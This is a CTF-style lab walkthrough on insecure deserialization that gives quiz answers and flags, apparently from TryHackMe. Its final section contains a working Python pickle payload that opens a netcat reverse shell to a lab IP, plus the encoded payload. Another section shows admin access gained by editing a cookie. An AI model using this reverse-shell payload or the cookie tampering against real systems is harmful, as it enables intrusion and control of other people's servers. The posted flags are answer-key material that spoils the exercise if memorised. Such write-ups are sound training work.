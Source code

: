 # Task 21~26

- [Task 21~26](#task-2126)
- [Insecure Deserialization](#insecure-deserialization)
  - [Who developed the Tomcat application?](#who-developed-the-tomcat-application)
    - [Answer](#answer)
  - [What type of attack that crashes services can be performed with insecure deserialization?](#what-type-of-attack-that-crashes-services-can-be-performed-with-insecure-deserialization)
    - [Answer](#answer-1)
- [Insecure Deserialization - Objects](#insecure-deserialization---objects)
- [Select the correct term of the following statement:](#select-the-correct-term-of-the-following-statement)
    - [Answer](#answer-2)
- [Insecure Deserialization - Deserialization](#insecure-deserialization---deserialization)
  - [What is the name of the base-2 formatting that data is sent across a network as?](#what-is-the-name-of-the-base-2-formatting-that-data-is-sent-across-a-network-as)
    - [Answer](#answer-3)
- [Insecure Deserialization - Cookies](#insecure-deserialization---cookies)
  - [If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be?](#if-a-cookie-had-the-path-of-webappcomlogin--what-would-the-url-that-the-user-has-to-visit-be)
    - [Answer](#answer-4)
  - [What is the acronym for the web technology that Secure cookies work over?](#what-is-the-acronym-for-the-web-technology-that-secure-cookies-work-over)
    - [Answer](#answer-5)
- [Insecure Deserialization - Cookies Practical](#insecure-deserialization---cookies-practical)
  - [1st flag (cookie value)](#1st-flag-cookie-value)
    - [Answer](#answer-6)
  - [2nd flag (admin dashboard)](#2nd-flag-admin-dashboard)
    - [Answer](#answer-7)
- [Insecure Deserialization - Code Execution](#insecure-deserialization---code-execution)
    - [Answer](#answer-8)
# Insecure Deserialization

## Who developed the Tomcat application?

### Answer

The Apache Software Foundation

## What type of attack that crashes services can be performed with insecure deserialization?

### Answer

denial of service

# Insecure Deserialization - Objects

# Select the correct term of the following statement:

### Answer

A Behaviour 

# Insecure Deserialization - Deserialization

## What is the name of the base-2 formatting that data is sent across a network as? 

### Answer

binary

#  Insecure Deserialization - Cookies

![picture 2](../../../images/fd2350203fa0af63b083268c767bb060135758ba363963e8e6f64b05a61bba12.png)  

## If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be?

### Answer
webapp.com/login

## What is the acronym for the web technology that Secure cookies work over?

### Answer
https

# Insecure Deserialization - Cookies Practical

## 1st flag (cookie value)

![picture 3](../../../images/bd90f93ad78c757149908188da59cfb88b16d8dfdaa99b3e9f77187d70825286.png)  

```sh
echo -n "gAN9cQAoWAkAAABzZXNzaW9uSWRxAVggAAAAZDYzOWIzNzUwMjM5NDM3ZTk4ZGZmOWM3NjEwOTYxZjlxAlgLAAAAZW5jb2RlZGZsYWdxA1gYAAAAVEhNe2dvb2Rfb2xkX2Jhc2U2NF9odWh9cQR1Lg==" |base64 --decode
```

```md
}q(X    sessionIdqX d639b3750239437e98dff9c7610961f9qX
                                                      encodedflagqXTHM{good_old_base64_huh}qu.%
```

### Answer

qXTHM{good_old_base64_huh}

## 2nd flag (admin dashboard)

Change ```user``` to ```admin```

![picture 4](../../../images/49a5516ef71b9a744b4be496511e97d423073316ebde966a2bf601e7132416b4.png)  


### Answer

THM{heres_the_admin_flag}

# Insecure Deserialization - Code Execution

1. on local machine

Run nc listener

```sh
nc -lvnp 4444
```

Edit the python script with your VPN IP

```python
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.18.1.159 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

Run python script and get the base64 command.

```
gASVdAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFlybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTguMS4xNTkgNDQ0NCA+IC90bXAvZpSFlFKULg==
```

Edit the encodedPayload and get remote access

![picture 5](../../../images/cf36245bbf73e5d342bd1415b85b9f8721d9d3795a5c74fe68f2587331765948.png)  

```
cat /home/cmnatic/flag.txt
```

### Answer

4a69a7ff9fd68